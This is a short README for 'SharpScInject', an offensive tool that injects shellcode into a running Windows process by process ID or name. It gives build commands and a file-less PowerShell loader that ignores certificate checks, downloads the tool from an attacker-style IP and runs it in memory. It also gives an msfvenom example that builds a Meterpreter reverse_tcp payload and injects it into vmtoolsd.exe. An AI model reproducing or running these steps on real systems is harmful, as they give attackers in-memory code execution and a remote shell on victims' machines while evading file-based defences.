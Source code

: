 # Sharp Shell Code Inject
## ⚠️⚠️⚠️ Fork From stevenyu113228/SharpScInject ⚠️⚠️⚠️
Inject the shellcode from local file or remote.
The https certificate for the request is ignored.
(No need high priv!)

## Build
```
sudo apt install -y mono-complete
mcs /reference:System.Net.Http SharpScInject.cs
```

## Usage
```
SharpScInject.exe <PID or process_name> <Shell Code PATH / URL>
```


File-less invoke
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} ;
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.20/SharpScInject.exe')
$argument = "5278 http://10.10.16.20/a.raw"
$assem = [System.Reflection.Assembly]::Load($data)
$method = $assem.Entrypoint
$argu= New-Object -TypeName System.Collections.ArrayList
$strings = $argument.Split(" ")
$argu.Add($strings)
$method.Invoke($null, $argu.ToArray())
```
## example
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.20  LPORT=443 -f raw -o a.raw
.\SharpScInject.exe vmtoolsd.exe http://10.10.16.20/a.raw
```

